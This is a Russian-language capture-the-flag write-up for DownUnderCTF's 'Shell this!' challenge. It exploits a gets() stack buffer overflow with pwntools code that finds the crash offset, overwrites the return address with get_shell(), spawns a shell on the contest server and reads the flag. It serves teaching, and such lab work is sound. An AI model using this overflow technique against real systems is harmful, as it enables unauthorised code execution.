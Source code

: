 # Shell this! (100 points, 340 solves)

> Somebody told me that this program is vulnerable to something called remote code execution?
>
> I'm not entirely sure what that is, but could you please figure it out for me?
>
> nc chal.duc.tf 30002

Для этого задания авторы расщедрились и помимо бинаря [shellthis](./shellthis) скинули исходник 
[shellthis.c](./shellthis.c):
```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Ого, функция `get_shell()` даёт нам shell! Жаль, что она нигде не вызывается... Так, функция `vuln()`
своим названием подсказывает, что смотреть надо в неё. И действительно, там есть вызов `gets()`. Для тех, кто
не знает:
```shell script
$ man 3 gets
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until either a terminating newline or EOF, 
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see
       BUGS below).
...
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters 
       gets() will read, and because gets() will continue to store characters past the end of the
       buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous Function") at http://cwe.mitre.org/data/definitions/242.html
```

Получается, у нас тут стандартное переполнение буфера (buffer overflow). Я не буду вдаваться в подробности о том, что
это такое и как оно работает. Советую почитать примеры из Интернета или посмотреть серию роликов от [LiveOverflow](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13).
Если кратко, нам нужно найти то количество символов, которое подведёт к перенаправлению исполнения туда, куда нам надо.
На заре своей карьеры я всё это делал руками с gdb, но это довольно долго (но полезно для понимания происходящего!). Во
время реальных соревнований стоит воспользоваться [pwntools](https://github.com/Gallopsled/pwntools).

### Шаг 1 - найти нужное количество символов для переполнения

Делается это просто:
```python
from pwn import *
io_local = process('./shellthis')

io_local.recv()
io_local.sendline(cyclic(100, n=8))
io_local.wait()
core = Core('./core')
offset = cyclic_find(core.fault_addr, n=8)
print(offset)
```

Работает это примерно так - в качестве входной строки закидывается строка определённого вида. Причём длина настолько 
большая, что программа просто крашится и генерирует core-файл. Далее из него вычитывается адрес, на котором
произошёл краш, и находится оффсет этой последовательности в исходной строке.

### Шаг 2 - находим адрес, куда надо перенаправить программу

Что же, это лёгкий пример, и у нас прямо тут есть функция `get_shell()`. Нам просто нужно достать адрес этой функции и
передать его. Делается это так:
```python
e = ELF('./shellthis')
win = e.symbols['get_shell']
```

### Шаг 3 - отправляем наш вредоностный инпут

Можно сразу направить это всё на сервер, флаг всё же там находится:
```python
io = remote('chal.duc.tf', 30002)

data = io.recv()  # Считываем приветствие
p = offset * b'A'  # Переполняем буфер
p += p64(win)  # И добавляем адрес функции get_shell()
io.sendline(p)  # Отправляем
io.interactive()  # Переходим в интерактивный режим
```

Результат:
```shell script
$ ls
flag.txt shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

Полный код [эксплоита](./shell_this.py).